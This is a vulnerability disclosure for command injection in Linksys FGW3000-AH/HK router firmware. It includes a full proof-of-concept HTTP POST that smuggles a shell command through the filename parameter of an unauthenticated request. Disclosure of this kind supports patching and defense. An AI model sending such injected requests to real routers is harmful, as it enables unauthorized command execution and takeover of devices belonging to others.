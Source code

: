 # Information



**Vendor of the products:** Linksys Holdings, Inc.

**Vendor's website:** [Linksys | Networking & WiFi Technology](https://www.linksys.com/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** FGW3000-AH/FGW3000-HK

**Affected firmware version:** <=Ver. 1.0.17.000000

**Firmware download address:**  [download]([Firmware and Documentation - Linksys Support](https://support.linksys.com/kb/section/57/))

# Overview

Linksys routers FGW3000-AH and FGW3000-HK are found to have a serious command execution vulnerability. An attacker can issue an unauthorized request via HTTP POST and execute commands by sending a special POST request via control_panel_sw.asp.

# Vulnerability details

When page=control_panel_sw.asp, the function sub_419434 will be requested and processed

![image-20250426165747179](2/image-20250426165747179.png)



When action=remove, the command injection parameters are controlled through the filename field, and the command execution is finally realized.

![image-20250426165919150](2/image-20250426165919150.png)



![image-20250426165956065](2/image-20250426165956065.png)

# POC

```
POST /cgi-bin/sysconf.cgi HTTP/1.1
Host: 192.168.122.150
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
X-Requested-With: XMLHttpRequest
Content-Length: 85
Origin: http://192.168.122.150
Connection: close
Referer: http://192.168.122.150/
Cookie: Secure; __guid=82765014.4196598859201601500.1743513625621.1406; langCookie=ui; Secure; page=undefined,mobile,0,0

page=control_panel_sw.asp&action=remove&filename=;echo "this is a test" > /www/2.txt;
```

![image-20250426170219656](2/image-20250426170219656.png)

![image-20250426170231549](2/image-20250426170231549.png)